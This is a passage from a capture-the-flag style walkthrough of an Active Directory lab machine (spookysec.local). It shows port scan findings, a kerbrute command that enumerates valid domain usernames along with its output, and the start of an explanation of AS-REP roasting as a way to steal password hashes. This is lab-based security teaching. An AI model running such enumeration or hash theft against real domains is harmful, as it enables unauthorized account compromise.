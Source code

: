 - Multiple open ports find: 53, 80, 88, 135, 139, 389, 445, 3268, 3389, etc.
- NetBIOS domain name is `THM-AD`.
- AD domain is `spookysec.local`.

### Enumerating users via Kerberos

From the Nmap scan report, it can be observed that the machine is part of an Active Directory domain "spookysec.local".

I downloaded the latest release of kerbrute from the [GitHub repository](https://github.com/ropnop/kerbrute). This tool is useful to enumerate users on an AD domain.

Before using kerbrute I added the domain name in the `/etc/hosts` file:

```sh
# /etc/hosts

...
<machine-ip>    spookysec.local
```

Using the `userenum` option, I enumerated the users on the domain `spookysec.local`.

```sh
> ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 06/30/25 - Ronnie Flathers @ropnop

2025/06/30 03:31:18 >  Using KDC(s):
2025/06/30 03:31:18 >   spookysec.local:88

2025/06/30 03:31:19 >  [+] VALID USERNAME:       james@spookysec.local
2025/06/30 03:31:24 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/06/30 03:31:29 >  [+] VALID USERNAME:       James@spookysec.local
2025/06/30 03:31:31 >  [+] VALID USERNAME:       robin@spookysec.local
2025/06/30 03:31:59 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/06/30 03:32:14 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/06/30 03:32:48 >  [+] VALID USERNAME:       backup@spookysec.local
2025/06/30 03:33:03 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/06/30 03:34:29 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/06/30 03:34:58 >  [+] VALID USERNAME:       Robin@spookysec.local
```

- The users `svc-admin` and `backup` are notable.

### AS-REProasting

AS-REProasting is the method of exploiting users which does not have kerberos pre-authentication enabled, so you can steal the password hashes without needing to authenticate.
